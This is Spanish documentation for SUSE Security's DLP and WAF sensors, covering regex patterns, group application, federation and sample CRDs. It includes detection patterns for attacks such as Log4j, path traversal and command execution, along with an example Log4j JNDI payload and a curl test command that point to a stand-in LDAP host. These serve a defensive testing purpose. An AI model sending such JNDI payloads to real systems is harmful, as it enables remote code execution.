


Sensores DLP y WAF
Prevención de Pérdida de Datos (DLP) y Cortafuegos de Aplicaciones Web (WAF)
DLP y WAF utilizan la Inspección Profunda de Paquetes (DPI) de SUSE® Security para inspeccionar las cargas de red de las conexiones en busca de violaciones de datos sensibles. SUSE® Security utiliza un motor basado en expresiones regulares (regex) para realizar funciones de filtrado de paquetes. Se debe tener un cuidado extremo al aplicar sensores al tráfico de contenedores, ya que la función de filtrado incurre en una sobrecarga adicional del sistema y puede afectar el rendimiento del host.
El filtrado DLP y WAF se aplica de manera diferente dependiendo de los grupos a los que se apliquen. En general, el filtrado WAF se aplica a las conexiones entrantes y salientes, excepto para el tráfico interno donde solo se aplica el filtrado entrante. El filtrado DLP se aplica a las conexiones entrantes y salientes de un 'dominio de seguridad', pero no a ninguna conexión interna dentro de un dominio de seguridad. Vea las descripciones detalladas a continuación.
Configurar DLP o WAF es un proceso de dos pasos:
-
Defina y pruebe el/los sensor(es), que es el conjunto de expresiones regulares utilizadas para coincidir con el encabezado, URL o paquete completo.
-
Aplique el sensor deseado a un Grupo, en la pantalla de Grupos de la Directiva →.
Sensores WAF
Los sensores WAF representan la inspección del tráfico de red hacia/desde un pod/contenedor. Estos sensores se pueden aplicar a cualquier grupo aplicable, incluso grupos personalizados (por ejemplo, grupos de espacio de nombres). El tráfico entrante a TODOS los contenedores dentro del grupo será inspeccionado para la detección de reglas WAF. Además, cualquier conexión saliente (egreso) externa al clúster será inspeccionada.
Esto significa que, aunque esta función se llama WAF, es útil y aplicable a cualquier tráfico de red, no solo al tráfico de aplicaciones web, y por lo tanto proporciona protecciones más amplias que los simples WAF. Por ejemplo, se puede hacer cumplir la seguridad de la API en conexiones salientes a un servicio de API externo, permitiendo solo solicitudes GET y bloqueando POSTs.
También ten en cuenta que, aunque es similar a DLP, la inspección es para el tráfico entrante a CADA pod/contenedor dentro del grupo, mientras que DLP aplica la inspección solo al tráfico entrante y saliente del grupo (es decir, el límite de seguridad), no al tráfico interno en el grupo (por ejemplo, no este-oeste dentro de los contenedores de un grupo).

Sensores DLP
Los sensores DLP son los patrones que se utilizan para inspeccionar el tráfico. Los sensores integrados, como el de tarjeta de crédito y el de seguridad social de EE. UU., tienen expresiones regulares predefinidas. Puedes añadir sensores personalizados definiendo patrones regex que se utilizarán en ese sensor. Ten en cuenta que, aunque es similar a WAF, DLP aplica la inspección solo al tráfico entrante y saliente del grupo (es decir, el límite de seguridad), no al tráfico interno en el grupo (por ejemplo, no este-oeste dentro de los contenedores de un grupo). La inspección WAF es solo para el tráfico entrante a CADA pod/contenedor dentro del grupo.

Configurando sensores DLP y WAF
La configuración de los sensores DLP y WAF es similar. Crea un nombre para el sensor y cualquier comentario, luego selecciona el sensor para añadir o editar las reglas para ese sensor. Los campos clave incluyen:
-
Tener/No tener. Determina si la coincidencia requiere que se encuentre el patrón (Tener) para tomar la acción (por ejemplo, Denegar), o solo si el patrón no existe (No tener) se debe tomar la acción. Se recomienda que el operador "No tener" se combine en la regla con un patrón que use el operador "Tener" porque un solo patrón con el operador "No tener" no será efectivo.
-
Patrón. Esta es la expresión regular utilizada para determinar una coincidencia. Puedes probar tu regex contra datos de muestra para asegurar resultados correctos de Tener/No tener.
-
Contexto. Dónde buscar la coincidencia del patrón. Elige el paquete para la inspección más amplia de toda la conexión de red, o limita la inspección solo a la URL, encabezado o cuerpo.

Cada regla de DLP/WAF admite múltiples patrones (se permiten un máximo de 16 patrones por regla). Múltiples patrones, así como establecer el contexto de la regla, también pueden ayudar a reducir los falsos positivos.
Ejemplo de una regla de DLP con un patrón de Tener/No Tener: Tener:
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\bEsto produce una coincidencia de falso positivo para "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!Agregar un patrón de No Tener elimina el falso positivo:
istio\_(\w){5}Los sensores deben aplicarse a un grupo para volverse efectivos.
Configurando sensores DLP y WAF federados
Este es el proceso general para configurar un sensor DLP o WAF federado:
-
Define y prueba el/los sensor(es) DLP/WAF federado(s), que es el conjunto de expresiones regulares utilizadas para coincidir con el encabezado, URL o paquete completo en la pestaña Clúster primario → Directiva Federada → Sensores DLP o Sensores WAF.
-
Aplica el sensor deseado a un grupo federado personalizado en la pestaña Directiva Federada → Grupos.
-
Verifica que el/los sensor(es) DLP/WAF federado(s) estén sincronizados con el clúster downstream y funcionen como se espera.
Ejemplo
Define un/unos sensor(es) DLP/WAF federado(s) en un clúster primario y luego aplícalo a un grupo federado personalizado, y luego verifica que esos sensores se apliquen a todos los clústeres downstream.
Pasos:
-
Define el/los sensor(es) DLP/WAF federado(s) en el clúster primario en la pestaña relevante Sensores DLP o Sensores WAF:


-
Aplica el/los sensor(es) DLP/WAF federado(s) a un grupo federado personalizado en la pestaña Directiva Federada → Grupos:

-
Verifica que el/los sensor(es) federado(s) DLP/WAF estén sincronizados con los clústeres downstream:


-
En los clústeres downstream, los contenedores envían tráfico que coincide con el patrón del/los sensor(es) federado(s) DLP/WAF:

-
Después del Paso 4, se generan notificaciones de "Eventos de Seguridad" DLP/WAF:

Aplicando Sensores DLP/WAF a Grupos de Contenedores
Para activar un sensor DLP o WAF, ve a Directiva → Grupos para seleccionar el grupo deseado. Habilita DLP/WAF para el Grupo y añade el/los sensor(es).
Se recomienda que los sensores DLP se apliquen en el límite de una zona de seguridad, definida por un Grupo, para minimizar el impacto de la inspección DLP. Si es necesario, define un Grupo Personalizado que represente dicha zona de seguridad. Por ejemplo, si el Grupo seleccionado es el grupo reservado 'contenedores', y se añaden sensores DLP al grupo, solo se inspeccionará el tráfico que entre o salga del clúster y no el tráfico entre todos los contenedores. O si es un grupo personalizado definido como 'espacio de nombres=demo', entonces solo se inspeccionará el tráfico que entre o salga del espacio de nombres demo, y no el tráfico entre contenedores dentro del espacio de nombres.
Se recomienda que los sensores WAF se apliquen solo a Grupos donde se esperan conexiones entrantes (por ejemplo, ingress), a menos que el/los sensor(es) se apliquen a una aplicación interna específica (esperando tráfico este-oeste).

Resumen del Comportamiento DLP/WAF
-
La coincidencia de patrón DLP no ocurre para el tráfico que pasa entre cargas de trabajo que pertenecen al mismo grupo DLP.
-
Cualquier tráfico que pase dentro y fuera de un grupo DLP es escaneado en busca de coincidencias de patrón.
-
El tráfico de entrada y salida del clúster es escaneado en busca de patrones si se permite que la carga de trabajo realice conexiones de entrada/salida.
-
Múltiples patrones por regla DLP/WAF (se permiten un máximo de 16 patrones por regla).
-
Se generan múltiples alertas para un solo paquete si coincide con múltiples reglas.
-
Por razones de rendimiento, solo se alertan y coinciden las primeras 16 reglas, incluso si el paquete coincide con más de 16 reglas.
-
Las alertas se agregan y se informan juntas si la misma regla coincide y alerta múltiples veces dentro de 2 segundos.
-
Se utiliza PCRE para la coincidencia de patrón.
-
Se utiliza la biblioteca de escaneo hiper para una coincidencia de patrón eficiente, escalable y de alto rendimiento.
Acciones de DLP/WAF en los modos Descubrir, Monitor, Proteger
Al añadir sensores a grupos, la acción de DLP/WAF se puede establecer en Alertar o Denegar, con el siguiente comportamiento si hay una coincidencia:
-
Modo descubrir. La acción siempre será alertar, independientemente de la configuración Alertar/Denegar.
-
Modo monitor. La acción siempre será alertar, independientemente de la configuración Alertar/Denegar.
-
Modo proteger. La acción será alertar si se establece en Alertar, o bloquear si se establece en Denegar.
Patrón de detección de Log4j WAF
La regla similar a WAF para detectar el intento de explotación de Log4j se muestra a continuación. Tenga en cuenta que esto solo debe aplicarse a grupos que esperan conexiones web de entrada.
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*También tenga en cuenta que hay formas en que los atacantes podrían eludir la detección por tales reglas.
Prueba de la detección de WAF de Log4j
En un intento de explotación, el atacante construirá una inserción inicial jndi: e incluirá en el encabezado HTTP User-Agent:
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}Usar curl para enviar datos al servidor (contenedor) puede ayudar a probar la regla WAF:
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"Configuración y prueba de WAF
El archivo descargable a continuación proporciona un script no soportado para crear sensores WAF a través de CRD y ejecutar pruebas de reglas WAF comunes contra esos sensores. El README proporciona instrucciones para ejecutarlo.
Alertas de muestra

Notificación de Evento de Seguridad DLP por Coincidencia de Tarjeta de Crédito

|
La captura de paquetes automatizada contendrá el paquete real, incluyendo el número de tarjeta de crédito coincidente. Esto también es cierto para cualquier captura de paquetes DLP de cualquier dato sensible. |
Gestión de Reglas WAF Usando Importar/Exportar o CRDs
Es posible importar o exportar reglas WAF desde la pantalla WAF. Esto puede ser útil para poder propagar reglas a otros clústeres, hacer una copia de seguridad o prepararlas para aplicar como un CRD.
Para crear sensores WAF o aplicar un sensor WAF a un grupo usando CRDs, asegúrate de que se cree el enlace de rol de clúster NVWafSecurityRule apropiado.
Sensor WAF CRD de muestra
Haga clic aquí para obtener más información
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: nullCRD de muestra para aplicar un sensor WAF a un grupo
Haga clic aquí para obtener más información
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: nullConsulta la sección CRD para más detalles sobre el trabajo con CRDs.